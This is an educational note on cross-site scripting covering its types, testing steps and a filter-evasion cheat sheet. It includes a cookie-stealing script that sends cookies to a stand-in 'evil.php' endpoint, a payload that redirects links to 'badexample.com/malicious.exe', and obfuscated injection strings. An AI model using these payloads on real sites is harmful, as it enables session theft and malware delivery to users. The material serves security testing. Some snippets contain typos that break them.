 ```yaml
---
title: Cross-site Scripting
date: 2018-09-12 01:41:46
tags: XSS
categories: Injection
---
```


## Common occurrences of vulnerabilities
The data is included in dynamic content(web request requently) that enters a Web application and then is sent to a web user.
**Typical examples**
* User/Profiles page
* Shopping cart
* File Manager
* Application settings/preferences
* Forum/Message board
* Blog
* Log

## Type
* Stored XSS Attacks
These are those where the injected script is permanently stored on the target servers, such as in a database, in a message, in a message forum, visitor log, comment field, etc.

* Reflected XSS Attacks
These are those where the injected script is reflected directly off the web server when the request is sent.
<!--more-->

* DOM XSS Attacks
DOM Based XSS is a form of XSS where the entire tainted data flow from source to sink takes place in the browser, i.e., the source of the data is in the DOM, the sink is also in the DOM, and the data flow never leaves the browser. For example, the source could be the URL of the page(e.g., document.location.href or the value of an element of the HTML), and the sink is sensitive method call that causes the execution of the malicious data(e.g., document.write).

## Use of Vulnerabilities
**Cookie Grabber**
```
<script>
Var adr = ‘../evil.php?cakemonster=’ + escape(document.cookie);
var img = document.createElement(“img”);
var d1 = document.getElementById(“d1”);
img.src = adr;
d1.appendChild(img);
</script>
```

**Download of malicious software**
```
http://example.com/index.php?id=<script>window.onload = function() {
var AllLinks=document.getELementByTagName("a");
AllLinks[0].href = "http://badexample.com/malicious.exe";
}</script>
```

## Testing of Cross site scripting
**Reflected XSS**
*Black Box testing*
* `<script>alert(123)</script>`
* `“><script>alert(document.cookie)</script>`
1. Detect input vectors.
2. Use one of the examples showed above to be input data in every input vector, then examine the resulting web page HTML and search for the test input.

**Stored XSS**
*Black Box testing*
It's similar to the process. We can exploit Stored XSS by some advanced 
exploitation framework(Beff, XSS Proxy).

*White Box testing*
The predefined variables/functions to store input from HTTP GET and POST 
requests need to be focus.
* PHP
>$_GET -- HTTP GET variables
>$_POST -- HTTP POST variables
>$_REQUEST -- HTTP POST, GET and COOKIE variables
>$_FILES -- HTTP File Upload variables

* ASP
>Request.QueryString -- HTTP GET
>Request.Form -- HTTP POST
>Server.CreateObject -- Used to upload files

* JSP
>doGet, doPost servlets -- HTTP GET and POST
>request.getParameter -- HTTP GET/POST variables

**DOM XSS**
*White Box testing*
The API need to be concerned are the following
>document.location
>document.URL
>document.referrer
>window.location
>document.write
>document.writeln
>document.body.innerHTML
>eval

and so on.

## XSS Filter Evasion Cheat Sheet
Image tag
`<IMG SRC="javascript:alert('XSS');">`
No quotes and no semicolon
`<IMG SRC=javascript:alert('XSS')>`
Case insensitive
`<IMG SRC=JaVaScRiPt:alert('XSS')>`
HTML entities
`<IMG SRC=javascript:alert(&quot;XSS&quot;)>`
Grave accent obfuscation
<code><IMG SRC=\`javascript:alert("RSnake says, 'XSS'")\`></code>
Malformed A tags
`<a onmouseover="alert(document.cookie)">xxs link</a>`
Malformed IMG tags
`<IMG src="""><SCRIPT>alert("XSS")</SCRIPT>">`
fromCharCode
`<script>eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,13))</script>`

# To be continue
## XSS Prevention Cheat Sheet

